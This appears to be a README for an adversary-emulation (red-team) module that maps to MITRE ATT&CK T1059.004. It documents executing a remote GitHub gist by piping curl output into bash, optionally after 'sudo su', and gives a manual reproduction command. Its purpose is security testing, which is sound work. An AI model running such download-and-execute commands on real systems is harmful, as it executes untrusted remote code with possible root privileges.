 # Arbitrary Script Execution Using Curl To Pipe

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the execution of an arbitrary bash script from a GitHub gist.

## Arguments

- **escalate_privileges**: Whether to escalate privileges before running the script (default: false).
- **download_link**: The download link for the GitHub gist containing the bash script (default: https://gist.githubusercontent.com/l50/2dd5d552c0336e6e8fd7704fd0d194de/raw/0cd2d4d0be1cac1899fc45ff23df8a1ed9ea0409/gistfile1.txt).

## Pre-requisites

1. The executor must have access to the specified GitHub gist and the ability to execute bash scripts.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//exectution/arbitrary-script-execution-using-curl-to-pipe/arbitrary-script-execution-using-curl-to-pipe.yaml \
  --arg escalate_privileges=true
```

## Steps

1. **ensure-root-user-if-required**: This step checks if the TTP needs to be run as root, and exits with an error message if it is not being run as root.
2. **download-and-run-script**: This step downloads the bash script from the specified GitHub gist and executes it. If the script runs successfully, the TTP exits with a success message. Otherwise, it exits with a failure message.

## Manual Reproduction Steps

```
# Escalate privileges to root (optional - depends on what you're running)
sudo su

DOWNLOAD_LINK=https://gist.githubusercontent.com/l50/2dd5d552c0336e6e8fd7704fd0d194de/raw/0cd2d4d0be1cac1899fc45ff23df8a1ed9ea0409/gistfile1.txt

# Grab arbitrary bash script from a github gist and run it
curl -sL "${DOWNLOAD_LINK}" | bash
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0002 Execution
- **Techniques**:
  - T1059 Command and Scripting Interpreter
- **Subtechniques**:
  - T1059.004 Command and Scripting Interpreter Unix Shell

